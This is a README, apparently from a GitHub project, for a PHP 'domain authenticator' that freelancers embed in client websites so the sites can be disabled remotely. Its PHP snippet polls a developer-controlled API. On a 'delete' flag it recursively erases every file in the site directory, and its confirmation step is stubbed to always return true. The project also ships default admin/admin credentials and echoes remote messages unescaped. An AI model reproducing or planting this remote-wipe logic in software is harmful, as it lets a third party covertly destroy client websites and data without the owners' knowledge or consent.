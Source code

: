 # Domain Authenticator Manager

<p> With this domain authenticator server, anyone can add domain authentication to their code, it's very simple and easy to use this domain authenticator server. The primary purpose of this project is to help those freelancers who got cheated by clients after completing the project </p>
<p>&nbsp;</p>

<h3>Highlighted Features : </h3>
<ul>
    <li>Easy to use</li>
    <li>Simple & fast loading Admin panel</li>
    <li>Show any text message from the admin panel</li>
    <li>It can delete the entire website in one command</li>
    <li>Prebuild WP theme function code and plugin </li>
</ul><br>

<h3>Requirements :</h3>
<ul>
    <li>PHP >= 8.1</li>
    <li>MySql Database</li>
</ul><br>

## Video Demonstration
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](https://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)




<h3><strong>How to Install ?</strong></h3>
<ol>
    <li>Clone the repogetory</li>
    <li>uplaod on your server&nbsp;</li>
    <li><a href="https://active.devtool.my.id" rel="dofollow"><strong>Register</strong></a> your domain with us</li>
    <li>Create MySql database and user&nbsp;</li>
    <li><a href="https://active.devtool.my.id/checker.php" rel="dofollow"><strong>Downlaod</strong></a> the database</li>
    <li>Import the <strong>database.sql&nbsp;</strong></li>
    <li>Put the database credential on <strong>config.php</strong></li>
</ol><br>

<h3><strong>Now you are ready to login into the domain control panel&nbsp;</strong></h3>
<p>https://example.com/login.php</p>
<p>user:- admin</p>
<p>password:- admin</p>
<br>

<p>WordPress users can use our  WordPress theme <a href="#functioncode" rel="dofollow" > function code</a> on any theme. also, we have a WordPress <a href="https://github.com/websmartbd/Domain-Validator-Plugin" rel="dofollow" >Plugin</a> to validate the authorized domain</p>

<br><br><br>
<h3 id="php"> Row php code sample</h3>

```
<?php

// Enable error reporting
error_reporting(E_ALL);
ini_set('display_errors', 1);

function is_domain_allowed() {
    $api_url = 'https://example.com/api.php'; // Replace this with your actual API URL
    $response = file_get_contents($api_url);
    if ($response === false) {
        return false; // Assuming API call failed, disallow domain
    }
    $api_response = json_decode($response, true); // Decoding JSON as associative array

    // Extracting the domain from the $_SERVER['HTTP_HOST']
    $current_domain = $_SERVER['HTTP_HOST'];

    foreach ($api_response as $item) {
        if ($item['domain'] == $current_domain) {
            // Check if the domain is active or not
            if ($item['active'] == 1) {
                // Check if 'delete' key exists in the JSON data
                if (isset($item['delete'])) {
                    if ($item['delete'] == "yes") {
                        // Confirm deletion
                        if (confirm_deletion()) {
                            delete_all_files_folders();
                        }
                    } elseif ($item['delete'] == "no") {
                        // If deletion is not allowed, simply return false
                        return false;
                    }
                }
                return true; // Domain is active, allow access
            } else {
                // If the domain is not active, show the message
                echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">' . $item['message'] . '</p>';
                return false;
            }
        }
    }

    // If the domain is not found in the API response, show the default message
    echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">You are not allowed to use this code</p>';
    return false;
}

function confirm_deletion() {
    // Here you can implement a confirmation mechanism, such as a form submission or a checkbox
    // For demonstration purposes, returning true directly
    return true;
}

function delete_all_files_folders() {
    $dir_to_delete = __DIR__; // Directory of the current script
    if (delete_directory($dir_to_delete)) {
        echo '<p style="color:green;font-size:18px;font-weight:600;">All files and folders deleted successfully.</p>';
    } else {
        echo '<p style="color:red;font-size:18px;font-weight:600;">Failed to delete files and folders.</p>';
    }
}

// Recursive function to delete directory and its contents
function delete_directory($dir) {
    if (!is_dir($dir)) {
        return false;
    }

    $files = array_diff(scandir($dir), array('.', '..'));
    foreach ($files as $file) {
        $path = $dir . DIRECTORY_SEPARATOR . $file;
        if (is_dir($path)) {
            delete_directory($path);
        } else {
            if (!unlink($path)) {
                return false;
            }
        }
    }
    return rmdir($dir);
}

if (!is_domain_allowed()) {
    // Do nothing here, the message is handled inside is_domain_allowed() function
} 

// code to be executed if the domain is allowed

?>

```


<br><br>
<h3 id="functioncode"><b>Note:- If you don't have a good knowledge of PHP code or theme function we recommend using the Plugin instead of function code </b></h3>

```

function check_domain_allowed_theme() {
    $api_url = 'https://example.com/api.php?nonce=' . md5(uniqid(rand(), true)); // Append a unique query parameter to bypass caching
    $response = wp_remote_get($api_url);

    if (is_wp_error($response)) {
        return; // If the API call fails, do nothing
    }

    $body = wp_remote_retrieve_body($response);
    $api_response = json_decode($body, true); // Decoding JSON as associative array

    // Extracting the domain from the $_SERVER['HTTP_HOST']
    $current_domain = $_SERVER['HTTP_HOST'];

    foreach ($api_response as $item) {
        if ($item['domain'] == $current_domain) {
            // Check if the domain is active or not
            if ($item['active'] == 1) {
                return; // Domain is active, allow access
            } else {
                // If the domain is not active, show the message
                echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">' . esc_html($item['message']) . '</p>';
                exit; // Stop further execution
            }
        }
    }

    // If the domain is not found in the API response, show the default message
    echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">You are not allowed to use this code</p>';
    exit; // Stop further execution
}
add_action('wp_head', 'check_domain_allowed_theme');

```
